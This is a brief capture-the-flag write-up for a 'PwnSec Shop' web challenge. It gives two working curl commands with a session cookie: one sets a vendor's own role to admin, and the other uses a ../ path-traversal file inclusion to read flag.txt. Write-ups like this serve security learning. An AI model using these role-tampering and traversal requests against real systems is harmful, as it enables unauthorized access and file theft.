 # Solution: PwnSec Shop
Upon reviewing the accesscontrol map, we can see that a vendor has the privilege to modify their role. As vendors, we send a request to modify our role as so:
```sh
curl -b 'connect.sid=s%3ACnPTP0aTdykPHFk4LRBS5ymxxUuZCdQH.JqvlBxKmHn7KkNadiA0CnHAfHoJmxl%2BfLkIasBNywWQ' https://pwnsecshop.alawneh.app/profile -d role=admin
```

This privilege escalation opens up new pages for us, namely, the product-photos page, where we can abuse an LFI to get the flag:
```sh
curl -b 'connect.sid=s%3ACnPTP0aTdykPHFk4LRBS5ymxxUuZCdQH.JqvlBxKmHn7KkNadiA0CnHAfHoJmxl%2BfLkIasBNywWQ' https://pwnsecshop.alawneh.app/admin/product-photos/view?file=../../../../../../../../flag.txt
```
